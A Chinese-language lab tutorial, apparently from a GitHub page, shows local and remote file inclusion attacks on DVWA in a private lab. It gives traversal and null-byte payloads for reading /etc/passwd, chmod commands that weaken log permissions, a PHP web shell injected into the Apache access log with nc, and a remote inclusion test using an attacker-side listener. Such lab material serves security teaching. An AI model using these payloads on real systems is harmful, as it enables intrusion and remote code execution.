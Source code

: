 * 绕过字符过滤
> http://10.10.10.132/dvwa/vulnerabilities/fi/?page=file:///etc/passwd%00

* 绕过字符过滤
> 10.10.10.132/dvwa/vulnerabilities/fi/?page=..%2f..%2f..%2f..%2f..%2fetc/passwdaa


## 权限配置不当引起的本地文件包含漏洞

* 修改 dvwa 的 access.log 权限，使其错误配置系统权限
``` 
root@metasploitable:/var/log/apache2# chmod a+rx access.log
root@metasploitable:/var/log# chmod a+rx apache2
root@metasploitable:/var# chmod a+rx log
root@metasploitable:/# chmod a+rx var

```

* 使用 nc 插入代码
``` 
root@kali:~/Desktop# nc -nv 10.10.10.132 80
(UNKNOWN) [10.10.10.132] 80 (http) open
<?php echo shell_exec($_GET['cmd']);?>

```

* 浏览器测试
> http://10.10.10.132/dvwa/vulnerabilities/fi/?page=/var/log/apache2/access.log

## 远程文件包含漏洞

* dvwa测试 Low 级别下的源代码

1. kali 本机监听 80 端口
``` 
root@kali:~# nc -nvlp 80
listening on [any] 80 ...
```

2. kali 浏览器 随便指定一个URL，IP地址为kali 本机
``` 
10.10.10.132/dvwa/vulnerabilities/fi/?page=http://10.10.10.131/a.php
```

3. nc 接收到请求
``` 
connect to [10.10.10.131] from (UNKNOWN) [10.10.10.132] 36129
GET /a.php HTTP/1.0
Host: 10.10.10.131

```

4. 查看 dvwa Low 级别下的源代码
``` 
<?php
    $file = $_GET['page']; //The page we wish to display 
?> 

```
